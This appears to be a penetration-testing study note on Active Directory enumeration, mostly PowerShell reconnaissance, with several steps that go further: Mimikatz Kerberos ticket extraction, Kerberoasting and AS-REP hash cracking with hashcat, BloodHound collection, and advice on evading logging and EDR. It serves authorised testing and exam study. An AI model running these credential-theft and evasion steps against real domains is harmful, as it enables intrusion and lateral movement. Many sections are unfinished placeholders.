










# 🎯 Active Directory Enumeration - Master Methodology Hub

> **🎯 PURPOSE**: This is your **central command center** for orchestrating Active Directory enumeration during pentests, labs, and exams. Every decision, pivot, and workflow is mapped here for **immediate tactical guidance**.

[🔄 Back to Master Index](./00_Enumeration_Index.md)

---

## 🚀 **COMMAND CENTER OVERVIEW**

### **🎭 What This Hub Does**
This hub is your **tactical decision matrix** for AD enumeration. It doesn't duplicate content—it orchestrates your approach, tells you **when to pivot**, **where to go next**, and **how to stay stealthy** throughout your engagement.

### **🎯 Core Functions**
- **Decision Orchestration**: Routes you to the right technique at the right time
- **Workflow Management**: Manages the complete enumeration lifecycle
- **OPSEC Coordination**: Centralizes stealth and detection avoidance
- **Attack Path Planning**: Maps findings to next logical steps

---

## 🧠 **PRE-ENGAGEMENT SANITY CHECKS**

### **⏰ Time Synchronization (CRITICAL)**
```powershell
# Check time skew - if >2 minutes, Kerberos will fail
w32tm /query /status

# Expected Output: Time offset should be <2 minutes
# If skewed: w32tm /resync /force
```

**Why This Matters**: Kerberos authentication requires time synchronization. A 2+ minute skew will cause authentication failures.

### **🌐 Name Resolution Validation**
```powershell
# Verify domain resolution
Resolve-DnsName corp.local

# Check SRV records for domain controllers
Resolve-DnsName -Type SRV _ldap._tcp.dc._msdcs.corp.local

# Expected Output: Should resolve to domain controllers
# If failed: Check DNS settings, network connectivity
```

**Why This Matters**: AD enumeration requires proper DNS resolution. SRV records tell you where domain controllers are located.

### **🔌 Network Connectivity Test**
```powershell
# Test connectivity to domain controller
Test-NetConnection -ComputerName DC01.corp.local -Port 389,445,88,135,5985

# Expected Output: All ports should be open
# Port 389: LDAP, 445: SMB, 88: Kerberos, 135: RPC, 5985: WinRM
```

**Why This Matters**: You need to verify which services are accessible before attempting enumeration.

### **👤 Identity Baseline Assessment**
```powershell
# Check current user context
whoami /all

# Check Kerberos ticket cache
klist

# Expected Output: Note group memberships, existing TGT/TGS tickets
# This establishes your starting position for privilege escalation
```

**Why This Matters**: Understanding your current privileges and group memberships determines what enumeration techniques are available.

---

## 🎭 **EXECUTION PROFILES (Centralized Control)**

### **🕵️ Stealth Profile (Production Pentest)**
| **Parameter** | **Setting** | **Rationale** |
|---------------|-------------|---------------|
| **Fan-out** | Low (1-3 concurrent) | Minimize detection signatures |
| **Sampling** | First 10-20 objects | Validate approach before full enumeration |
| **Caching** | Aggressive result caching | Reduce repeated DC queries |
| **Scope** | Site-specific, OU-limited | Focus on relevant targets only |
| **Tools** | MS-signed cmdlets only | Avoid suspicious tool detection |
| **Timing** | 3-7 second delays with jitter | Blend with normal network traffic |

### **⚖️ Balanced Profile (Lab Environment)**
| **Parameter** | **Setting** | **Rationale** |
|---------------|-------------|---------------|
| **Fan-out** | Moderate (5-10 concurrent) | Balance speed with stealth |
| **Sampling** | First 50-100 objects | Good coverage without being noisy |
| **Caching** | Standard result caching | Efficient enumeration |
| **Scope** | Site-wide, moderate OU coverage | Comprehensive discovery |
| **Tools** | MS-signed primary, PowerView where needed | Use best tool for the job |
| **Timing** | 2-5 second delays | Faster than production, still controlled |

### **🚨 Noisy Profile (Internal Lab Only)**
| **Parameter** | **Setting** | **Rationale** |
|---------------|-------------|---------------|
| **Fan-out** | High (10+ concurrent) | Maximum speed for learning |
| **Sampling** | Full enumeration | Complete coverage for education |
| **Caching** | Minimal caching | Real-time results |
| **Scope** | Domain-wide, all OUs | Comprehensive discovery |
| **Tools** | All available tools | Learn full capabilities |
| **Timing** | 1-3 second delays | Rapid enumeration |

---

## 🗺️ **HIGH-LEVEL DECISION FLOW**

### **🎯 Enumeration Decision Tree**


### **📋 Decision Flow Notes**
- **Always validate DNS/GC locality** before heavy LDAP/ADWS queries
- **Use time-based enumeration** (*Coming Soon*) to measure noise thresholds
- **Sample before breadth** - test your approach on a small subset first
- **Cache results aggressively** - avoid repeated queries to the same DC

---

## 👥 **ROLE-BASED EXECUTION TRACKS**

### **🖥️ Limited User Track (Workstation Access)**
| **Phase** | **Techniques** | **OPSEC Considerations** |
|-----------|----------------|---------------------------|
| **Discovery** | MS-signed cmdlets only | Blend with normal user activity |
| **Enumeration** | Sample-first approach | Focus on high-value targets |
| **Validation** | Rely on server logs | Use existing access patterns |
| **Pivots** | Limited to user context | Avoid suspicious privilege escalation |

**Quick Links**: [04_Domain_Enumeration.md](./04_Domain_Enumeration.md) → *Coming Soon* → *Coming Soon*

### **🛠️ Helpdesk/Operator Track**
| **Phase** | **Techniques** | **OPSEC Considerations** |
|-----------|----------------|---------------------------|
| **Discovery** | Inventory-oriented queries | Focus on operational tasks |
| **Enumeration** | Site/OU scoped enumeration | Use legitimate business need |
| **Analysis** | Minimal group traversal | Avoid deep privilege analysis |
| **Pivots** | Operational access paths | Focus on service accounts |

**Quick Links**: *Coming Soon* → *Coming Soon* → *Coming Soon*

### **🔧 Server Administrator Track**
| **Phase** | **Techniques** | **OPSEC Considerations** |
|-----------|----------------|---------------------------|
| **Discovery** | Host-centric enumeration | Focus on managed systems |
| **Enumeration** | GPO impact analysis | Understand policy effects |
| **Analysis** | Session monitoring | Track user activity |
| **Pivots** | Administrative access paths | Use legitimate admin tools |

**Quick Links**: *Coming Soon* → *Coming Soon* → *Coming Soon*

### **🎭 Red Team Operator Track**
| **Phase** | **Techniques** | **OPSEC Considerations** |
|-----------|----------------|---------------------------|
| **Discovery** | Privilege-oriented pivots | Focus on escalation paths |
| **Enumeration** | OPSEC-tight timing | Minimize detection signatures |
| **Analysis** | Attack path mapping | Plan complete compromise |
| **Pivots** | Privilege escalation chains | Execute multi-step attacks |

**Quick Links**: *Coming Soon* → *Coming Soon* → *Coming Soon*

---

## 🏆 **GOLDEN ATTACK PATHS**

### **🔐 Kerberoasting Preparation Path**


**Complete Workflow**: *Coming Soon* → *Coming Soon* → *Coming Soon*

### **🎭 Delegation Abuse Path**


**Complete Workflow**: *Coming Soon* → *Coming Soon*

### **💻 Session-to-Admin Path**


**Complete Workflow**: *Coming Soon* → *Coming Soon* → *Coming Soon*

### **📁 File Server Hunt Path**


**Complete Workflow**: *Coming Soon* → *Coming Soon* → *Coming Soon* → *Coming Soon*

### **🔒 AD CS Abuse Path**


**Complete Workflow**: *Coming Soon* → *Coming Soon*

---

## 🎯 **SITE/CONTEXT SCOPING RULES**

### **🌐 Domain Controller Selection**
```powershell
# Find nearest domain controller
nltest /dsgetdc:corp.local

# Cache the result for subsequent queries
$nearestDC = (nltest /dsgetdc:corp.local).split()[2]

# Use nearest DC for heavy LDAP queries
Get-ADUser -Server $nearestDC -Filter * -Properties *
```

**Why This Matters**: Using the nearest DC reduces network latency and detection signatures.

### **🔍 Search Base Optimization**
```powershell
# Scope by OU for targeted enumeration
Get-ADUser -SearchBase "OU=IT,DC=corp,DC=local" -Filter * -Properties *

# Use Global Catalog for cross-domain visibility
Get-ADUser -Server "GC://corp.local" -Filter * -Properties *

# Avoid broad queries on domain controllers
# Instead of: Get-ADUser -Filter * -Properties *
# Use: Get-ADUser -Filter * -Properties samaccountname,distinguishedname
```

**Why This Matters**: Scoped queries are faster, less noisy, and more focused on your objectives.

---

## 🕵️ **OPSEC GUARDRAILS (Centralized Control)**

### **📊 Sampling Before Breadth**
```powershell
# Example: SPN enumeration with sampling
$allUsers = Get-ADUser -Filter * -Properties ServicePrincipalName
$sampleSize = [Math]::Min(100, $allUsers.Count)
$sampleUsers = $allUsers | Get-Random -Count $sampleSize

# Evaluate noise level before full enumeration
$spnUsers = $sampleUsers | Where-Object {$_.ServicePrincipalName -ne $null}
Write-Host "Sample shows $($spnUsers.Count) users with SPNs out of $sampleSize"
```

**Why This Matters**: Sampling helps you understand the scope and noise level before committing to full enumeration.

### **🔄 Sequence Sensitive Steps**
```powershell
# Phase 1: Use MS-signed cmdlets for discovery
Get-ADDomain
Get-ADDomainController -Filter *

# Phase 2: Use PowerView only when needed for unique value
Get-DomainUser -SPN -Properties ServicePrincipalName

# Phase 3: Cache and reuse results
$cachedResults = @{}
$cachedResults['DomainInfo'] = Get-ADDomain
```

**Why This Matters**: Starting with MS-signed cmdlets establishes legitimate activity patterns before using offensive tools.

### **💾 Aggressive Caching Strategy**
```powershell
# Cache results to avoid repeated DC hits
$cache = @{}

if (-not $cache.ContainsKey('Users')) {
    $cache['Users'] = Get-ADUser -Filter * -Properties samaccountname,distinguishedname
    Write-Host "Cached $($cache['Users'].Count) users"
}

# Use cached results for subsequent analysis
$adminUsers = $cache['Users'] | Where-Object {$_.samaccountname -like "*admin*"}
```

**Why This Matters**: Caching reduces network traffic, improves performance, and minimizes detection signatures.

---

## 🔧 **LAB VS PRODUCTION TOGGLES**

### **🎛️ Global Configuration Switches**
```powershell
# Configuration object for environment-specific settings
$config = @{
    ApprovedToolsOnly = $true          # Limit to MS-signed cmdlets in production
    MaxBreadth = 200                   # Cap objects per enumeration pass
    Concurrency = 1                    # Single-threaded in production
    LoggingSensitivity = "High"        # Extra guardrails when monitoring is active
    DelayRange = @(3, 7)              # Random delay range in seconds
    JitterPattern = "Random"           # Random vs. fixed timing patterns
}

# Apply configuration based on environment
if ($config.ApprovedToolsOnly) {
    Write-Host "Production mode: MS-signed cmdlets only"
    $config.MaxBreadth = 100          # More conservative in production
    $config.Concurrency = 1           # Single-threaded for stealth
}
```

### **📊 Environment-Specific Settings**
| **Setting** | **Lab** | **Production** | **Rationale** |
|-------------|---------|----------------|---------------|
| **MaxBreadth** | 500+ objects | 100-200 objects | Reduce noise in production |
| **Concurrency** | 5-10 threads | 1 thread | Minimize detection signatures |
| **Delay Range** | 1-3 seconds | 3-7 seconds | Blend with normal traffic |
| **Tool Selection** | All tools | MS-signed + essential only | Avoid suspicious tool detection |

---

## 🔍 **FINDINGS → PIVOTS (Tactical Decision Matrix)**

### **🎯 Key Finding Pivot Map**


### **📋 Pivot Decision Table**
| **Finding** | **Immediate Pivot** | **Secondary Pivot** | **Attack Path** |
|-------------|---------------------|---------------------|-----------------|
| **adminCount=1** | *Coming Soon* | *Coming Soon* | Group membership → ACL abuse |
| **SPN users** | *Coming Soon* | *Coming Soon* | SPN discovery → Kerberoasting |
| **Preauth disabled** | *Coming Soon* | *Coming Soon* | AS-REP roasting → Ticket analysis |
| **Unconstrained delegation** | *Coming Soon* | *Coming Soon* | Delegation abuse → Privilege escalation |
| **Active sessions** | *Coming Soon* | *Coming Soon* | ACL analysis → Session hijacking |
| **Weak GPOs** | *Coming Soon* | *Coming Soon* | Policy abuse → Scheduled task execution |

---

## 🎯 **SPECIFIC PIVOT SCENARIOS (Common Findings)**

### **🔐 KERBEROS-RELATED FINDINGS**

#### **Scenario 1: User with SPN Found**
```powershell
# Finding: User with servicePrincipalName attribute
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Extract SPN hash
Invoke-Mimikatz -Command '"kerberos::ask /target:MSSQLSvc/db01.corp.local"'

# Step 2: Crack hash with Hashcat
hashcat -m 13100 -a 0 hash.txt wordlist.txt

# Step 3: Use credentials for lateral movement
# PIVOT TO: *Coming Soon*
```

#### **Scenario 2: PreauthNotRequired = True**
```powershell
# Finding: User with preauth disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: AS-REP roasting
Get-ASREPHash -UserName vulnerable_user -Domain corp.local

# Step 2: Crack hash
hashcat -m 18200 -a 0 hash.txt wordlist.txt

# Step 3: Use credentials for privilege escalation
# PIVOT TO: *Coming Soon*
```

#### **Scenario 3: Unconstrained Delegation on Computer**
```powershell
# Finding: Computer with unconstrained delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Monitor for high-privilege logons
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Step 2: Extract TGT from memory
# Step 3: Use for privilege escalation
# PIVOT TO: *Coming Soon*
```

### **👥 USER & GROUP FINDINGS**

#### **Scenario 4: High-Value Group Membership**
```powershell
# Finding: User in Domain Admins or Enterprise Admins
Get-ADGroupMember -Identity "Domain Admins" -Recurse

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Check what the user can access
Get-DomainObjectAcl -SamAccountName "admin_user" -ResolveGUIDs

# Step 2: Look for interesting permissions
# Step 3: Plan privilege escalation path
# PIVOT TO: *Coming Soon*
```

#### **Scenario 5: Service Account with High Privileges**
```powershell
# Finding: Service account in privileged groups
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties memberof | Where-Object {$_.memberof -like "*Domain Admins*"}

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Kerberoast the service account
# Step 2: Use credentials for lateral movement
# Step 3: Leverage group memberships
# PIVOT TO: *Coming Soon*
```

#### **Scenario 6: User with "AdminCount = 1"**
```powershell
# Finding: User protected by AdminSDHolder
Get-ADUser -Filter {adminCount -eq 1} -Properties adminCount

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Check AdminSDHolder permissions
Get-DomainObjectAcl -Identity "CN=AdminSDHolder,CN=System,DC=corp,DC=local"

# Step 2: Look for modification opportunities
# Step 3: Plan AdminSDHolder abuse
# PIVOT TO: *Coming Soon*
```

### **🏗️ INFRASTRUCTURE FINDINGS**

#### **Scenario 7: Domain Controller with Weak Security**
```powershell
# Finding: DC with weak security settings
Get-ADDomainController -Filter * | Where-Object {$_.OperatingSystem -like "*2008*"}

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Check DC-specific vulnerabilities
# Step 2: Look for weak configurations
# Step 3: Plan DC compromise
# PIVOT TO: *Coming Soon*
```

#### **Scenario 8: Trust Relationship Found**
```powershell
# Finding: External or forest trust
Get-ADTrust -Filter * | Where-Object {$_.TrustType -eq "External"}

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Analyze trust properties
# Step 2: Check for SID filtering
# Step 3: Plan cross-forest attack
# PIVOT TO: *Coming Soon*
```

#### **Scenario 9: Weak GPO Configuration**
```powershell
# Finding: GPO with weak security settings
Get-GPO -All | Where-Object {$_.DisplayName -like "*Default*"}

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Analyze GPO security
# Step 2: Look for modification opportunities
# Step 3: Plan GPO abuse
# PIVOT TO: *Coming Soon*
```

### **💻 SESSION & ACCESS FINDINGS**

#### **Scenario 10: Active RDP Sessions on Server**
```powershell
# Finding: Active RDP sessions
quser /server:SRV01.corp.local

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Analyze session details
# Step 2: Check user privileges
# Step 3: Plan session hijacking
# PIVOT TO: *Coming Soon*
```

#### **Scenario 11: PowerShell Remoting Enabled**
```powershell
# Finding: WinRM enabled on target
Test-WSMan -ComputerName SRV01.corp.local

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Check WinRM configuration
# Step 2: Test remote execution
# Step 3: Plan lateral movement
# PIVOT TO: *Coming Soon*
```

#### **Scenario 12: File Share with Weak Permissions**
```powershell
# Finding: File share with Everyone access
Get-WmiObject -Class Win32_Share | Where-Object {$_.Name -like "*Data*"}

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Analyze share permissions
# Step 2: Check for sensitive data
# Step 3: Plan data exfiltration
# PIVOT TO: *Coming Soon*
```

### **🔒 CERTIFICATE & PKI FINDINGS**

#### **Scenario 13: AD CS Certificate Template with Weak Settings**
```powershell
# Finding: Certificate template with weak security
certipy find -u user@corp.local -p password -dc-ip 192.168.1.10

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Analyze template security
# Step 2: Check for ESC vulnerabilities
# Step 3: Plan certificate abuse
# PIVOT TO: *Coming Soon*
```

#### **Scenario 14: SQL Server with Database Links**
```powershell
# Finding: SQL Server with linked servers
sqlcmd -S SRV01.corp.local -Q "SELECT * FROM sys.servers"

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Analyze linked server configuration
# Step 2: Check for xp_cmdshell access
# Step 3: Plan SQL-based lateral movement
# PIVOT TO: *Coming Soon*
```

### **🕵️ DETECTION & OPSEC FINDINGS**

#### **Scenario 15: High Volume of LDAP Queries Detected**
```powershell
# Finding: Event ID 4662 (Object Access) with high frequency
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4662} -MaxEvents 100

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Reduce query frequency
# Step 2: Implement jitter and delays
# Step 3: Switch to stealth profile
# PIVOT TO: *Coming Soon*
```

#### **Scenario 16: Antivirus/EDR Detection**
```powershell
# Finding: Tool execution blocked or flagged
# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Switch to approved tools only
# Step 2: Use native Windows commands
# Step 3: Implement process injection techniques
# PIVOT TO: [01_Tool_Setup_Loading.md#invisi-shell-complete-setup](./01_Tool_Setup_Loading.md#invisi-shell-complete-setup)
```

---

## 🎭 **ADVANCED PIVOT CHAINS**

### **🔗 Multi-Step Attack Paths**

#### **Chain 1: SPN → Kerberoasting → Delegation → Golden Ticket**


**Complete Chain**: *Coming Soon* → *Coming Soon* → *Coming Soon*

#### **Chain 2: Session Discovery → ACL Analysis → Privilege Escalation**


**Complete Chain**: *Coming Soon* → *Coming Soon* → *Coming Soon* → *Coming Soon*

#### **Chain 3: GPO Abuse → Scheduled Task → Persistence**


**Complete Chain**: *Coming Soon* → *Coming Soon* → *Coming Soon*

---

## ⚡ **MINIMAL COMMAND SPINE (Copy-Ready)**

### **🔍 Discovery Core Commands**
```powershell
# Domain information (MS-signed, low noise)
Get-ADDomain | Select-Object Name,DomainMode,Forest

# Domain controller discovery
Get-ADDomainController -Filter * | Select-Object Name,Site,OperatingSystem

# Forest information
Get-ADForest | Select-Object Name,ForestMode,Domains

# Trust relationships
Get-ADTrust -Filter * | Select-Object Name,TrustType,TrustDirection
```

**Why These Commands**: These provide the foundation for all subsequent enumeration without being noisy.

### **👥 User/Group/Computer Baseline**
```powershell
# Focused property pulls with paging
Get-ADUser -Filter * -Properties samaccountname,distinguishedname,memberof -ResultPageSize 1000

# Site/OU scoped enumeration
Get-ADUser -SearchBase "OU=IT,DC=corp,DC=local" -Filter * -Properties samaccountname,distinguishedname

# Group enumeration with nesting
Get-ADGroup -Filter * -Properties member,memberof | Where-Object {$_.member -ne $null}
```

**Why These Commands**: Focused enumeration reduces noise while providing essential information for attack planning.

### **🔐 SPN Set Discovery (Sampled)**
```powershell
# Native SPN discovery (MS-signed)
setspn -Q MSSQLSvc/*

# PowerView equivalent (when needed)
Get-DomainUser -SPN -Properties ServicePrincipalName | Select-Object -First 50
```

**Why These Commands**: SPN discovery is essential for Kerberoasting but can be noisy - sampling helps manage this.

### **💻 Session Discovery**
```powershell
# RDP sessions (native tools)
quser /server:DC01.corp.local

# Network sessions (PowerView)
Get-NetSession -ComputerName DC01.corp.local
```

**Why These Commands**: Session discovery reveals active users and potential lateral movement targets.

### **🔓 ACL Analysis (Targeted)**
```powershell
# Find interesting domain ACLs (PowerView)
Find-InterestingDomainAcl -ResolveGUIDs | Where-Object {$_.IdentityReference -like "*\Users"}

# Targeted ACL analysis
Get-DomainObjectAcl -SamAccountName "Administrator" -ResolveGUIDs
```

**Why These Commands**: ACL analysis reveals privilege escalation paths and access control weaknesses.

---

## 📊 **EXPORTS & REPORTING**

### **💾 Export Strategy**
```powershell
# Unified naming convention
$timestamp = Get-Date -Format "yyyyMMdd_HHmmss"
$site = "HQ-Main"
$technique = "UserEnumeration"

$exportPath = ".\${technique}_${site}_${timestamp}.csv"

# Export with consistent format
Get-ADUser -Filter * -Properties * | Export-Csv -Path $exportPath -NoTypeInformation
```

**Export Naming Convention**: `<technique>_<site>_<date>.csv`

### **🩸 BloodHound Integration**
```powershell
# Capture method and scope for BloodHound
$bloodhoundConfig = @{
    Method = "SharpHound"
    Timestamp = Get-Date -Format "yyyy-MM-dd HH:mm:ss"
    SiteScope = "HQ-Main"
    GraphID = "CyberCorp_$(Get-Date -Format 'yyyyMMdd')"
}

# Export BloodHound data
Invoke-BloodHound -CollectionMethod All -Domain corp.local -OutputPrefix $bloodhoundConfig.GraphID
```

**BloodHound Documentation**: *Coming Soon*

### **📝 Chain Notebook**
```powershell
# Per-objective notes with file references
$attackChain = @{
    Objective = "Privilege Escalation to Domain Admin"
    Findings = @(
        "Found user with SPN: SQLService",
        "Discovered unconstrained delegation on DC01",
        "Identified weak ACLs on AdminSDHolder"
    )
    Pivots = @(
        "SPN → *Coming Soon*",
        "Delegation → *Coming Soon*",
        "ACLs → *Coming Soon*"
    )
    NextSteps = "Execute Kerberoasting attack on SQLService"
}
```

---

## 🧹 **CLEANUP CHECKLIST**

### **🔐 Credential Cleanup**
```powershell
# Remove temporary credentials
Remove-Variable -Name tempCreds -ErrorAction SilentlyContinue
Remove-Variable -Name cachedResults -ErrorAction SilentlyContinue

# Clear PowerShell credential store
Get-StoredCredential | Remove-StoredCredential
```

### **🔄 Session Restoration**
```powershell
# Revert PowerShell remoting settings if modified
if ($originalWinRMConfig) {
    Set-Item -Path WSMan:\localhost\Service\AllowUnencrypted -Value $originalWinRMConfig.AllowUnencrypted
    Write-Host "Restored original WinRM configuration"
}
```

### **📁 Artifact Cleanup**
```powershell
# Remove temporary files and exports
Remove-Item -Path ".\*_*.csv" -ErrorAction SilentlyContinue
Remove-Item -Path ".\BloodHound_*.zip" -ErrorAction SilentlyContinue

# Clear cached session lists from sensitive hosts
if ($cachedSessions) {
    $cachedSessions | ForEach-Object {
        Remove-Item -Path $_.Path -ErrorAction SilentlyContinue
    }
}
```

### **⚙️ Configuration Restoration**
```powershell
# Restore production defaults if lab toggles were changed
if ($config.ApprovedToolsOnly -eq $false) {
    $config.ApprovedToolsOnly = $true
    $config.MaxBreadth = 100
    $config.Concurrency = 1
    Write-Host "Restored production configuration"
}
```

---

## 🔗 **COMPREHENSIVE CROSS-REFERENCES**

### **🌐 NETWORK & INFRASTRUCTURE**
- **[02_Network_Enumeration.md](./02_Network_Enumeration.md)** - Network discovery and topology
- **[03_DNS_Enumeration.md](./03_DNS_Enumeration.md)** - DNS records and resolution

### **🏗️ DOMAIN & IDENTITY**
- **[04_Domain_Enumeration.md](./04_Domain_Enumeration.md)** - Domain structure and controllers
